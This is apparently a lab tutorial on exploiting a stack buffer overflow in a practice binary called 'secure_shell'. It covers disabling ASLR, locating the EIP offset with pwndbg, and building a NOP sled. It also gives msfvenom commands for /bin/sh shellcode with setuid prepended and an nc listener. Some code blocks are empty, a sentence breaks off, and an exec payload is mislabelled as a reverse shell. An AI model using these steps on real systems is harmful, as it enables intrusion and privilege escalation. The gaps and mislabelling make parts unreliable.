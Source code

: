 Following on from the override solution, we'll look at gaining a reverse shell

### Checking ASLR

To identify if ASLR (Address Space Layout Randomization) is present, we can
see the memory location that libc is placed at changes for each run:

```
user@490ddfc1d226:~/app$ ldd ./secure_shell
        linux-gate.so.1 (0xf7f3c000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7d3d000) <----
        /lib/ld-linux.so.2 (0xf7f3d000)
user@490ddfc1d226:~/app$ ldd ./secure_shell
        linux-gate.so.1 (0xf7fb0000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7db1000) <----
        /lib/ld-linux.so.2 (0xf7fb1000)
```

As the memory location different, ASLR is enabled. Let's disable it to make life easier.

### Configure ASLR

The ASLR flag has different settings:

- `0` - disableds
- `1` - Conservative: Shared libraries and PIE binaries are randomized
- `2` - Conservative and start of brk area is randomized, too


This value can be temporarily be configured via the file system:
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Writing an exploit

The linux stack frame looks like:

```
---------------------
|       ESP         |
---------------------
| local variables   |
|-------------------|
|   Saved EBP       |
|-------------------|
| Return Addr (EIP) |
---------------------
```

We can overwrite the saved EIP, but what value should we write? For now,
we can write a large buffer overflow, fill it with `\x90` nop assembly instructions,
and write EIP with the memory address of the function we are overflowing plus an
additional. The stack would then look like:

```
---------------------
| AAAA...           |
|-------------------|
| AAAA....          |
|-------------------|
| EIP override      |
|-------------------|
| nop...            |
|-------------------|
| nop...            |      
|-------------------|
| nop...            |      
|-------------------|
| Shell code        |
|-------------------|
```

For now let's get the value of $esp when `login` runs, we will treat that as our base value,n
and add an arbitrary number within our payload script:

```
pwndbg> b *login
Breakpoint 1 at 0x804925e: file secure_shell.c, line 11.
pwndbg> run
Starting program: /home/user/app/secure_shell 
warning: Error disabling address space randomization: Operation not permitted
Please enter secure shell password:
[press ctrl+c]
pwndbg> p $esp
$1 = (void *) 0xffffd65c
```

Choosing a memory location to jump to can be hard; This is why `nop_sleds` are used.
Using `\x90` for instructions that perform no operations, we can

##  

```
pwndbg> run < <(cyclic 100)
... etc ...
pwndbg> p $eip
$2 = (void (*)()) 0x6161616d
pwndbg> cyclic -l 0x6161616d
48
```

## Test payload

We'll use a placeholder shell_code of `\xcc` - which will signal an interrupt
signal which can be caught by the gdb debugger. This will help verify that the
buffer overflow has worked successfully:

```

```

## Choosing a payload

We can use msfvenom to generate a payload:
```
msfvenom -p linux/x86/exec CMD=/bin/sh --bad-chars '\x00\x0a\xff' -f python --var-name shell_code
```

We can also pipe this to `nasm` to see what instructions are being performed:
```
msfvenom -p linux/x86/exec CMD=/bin/sh -f raw
msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | ndisasm -u -
msfvenom -p linux/x64/exec CMD=/bin/sh -f raw | ndisasm -b 64 -
```

At a pinch, there are online assembler/disassemblers that can be leveraged,
https://defuse.ca/online-x86-assembler.htm#disassembly

We could also generate a reverse shell:
```
msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x00\x0a\x0d' --var-name shell_code
```

This would require a ncat listener:

```
nc -lnvp 4444
```

Note that in our case, we additionally prepend setuid/setgid calls: 
```
./msfvenom -p linux/x86/exec CMD=/bin/sh PrependSetuid=true PrependSetgid=true -f raw -b '\x00\x0a\x0d' --var-name shell_code -f python
```

Running:

```
(python3 reverse.py; echo ''; cat) | ./secure_shell
```

### Bypassing ASLR

If we continue to run our payload, we will eventually gain a reverse shell:
```

```
